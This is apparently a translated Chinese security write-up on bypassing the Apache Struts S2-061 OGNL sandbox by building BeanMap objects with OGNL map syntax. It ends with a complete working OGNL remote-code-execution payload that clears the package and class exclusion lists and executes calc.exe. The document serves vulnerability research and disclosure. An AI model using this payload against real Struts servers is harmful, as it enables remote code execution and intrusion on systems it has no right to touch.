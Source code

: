   

##  **绕过 S2-061 沙盒限制**

 **  
**

         在使用诸如 software-forensic-kit、调试器和逐行阅读代码之类的调用图工具寻找数周后，我开始认为这不再可能了。我已经找到了许多方法来通过漏洞收集有趣的信息，或者在返回函数上导致奇怪的 ui 行为，但还没有突破沙箱。

  

        研究过的一种可能的沙箱绕过方法我认为可能有效，但我认为我的语法可能不正确。所以我请了一天假然后回来开始复习OGNL 语法 。当我注意到“地图”部分时，这让我的眼睛转向了一个完全不同的方向。 

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220415095206.png)

  

意识到您可以创建自己的类的地图。  

  

https://<domain>/?skillName=#@java.util.LinkedHashMap@{"foo":"value"}

  

将创建一个 LinkedHashMap 对象并用 "foo":"value" 填充它。

或者您可以创建一个 BeanMap 对象。所以之前获取 BeanMap 的方法是：

  
  

现在可以通过简单地使用来完成：

  

  * 

    
    
    #@org.apache.commons.collections.BeanMap@{}
    
    
      
    

        使用 org.apache.commons.collections.BeanMap 没有任何沙箱限制，因此通过使用特殊的 OGNL 语法直接创建它，您可以绕过所有以前的沙箱限制。



        应用该概念并将“%{”“}”删除到以前的 POC，执行 calc.exe 的新的完整 RCE 变为以下内容：

  

  *   *   *   *   *   *   *   *   * 

    
    
    (#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
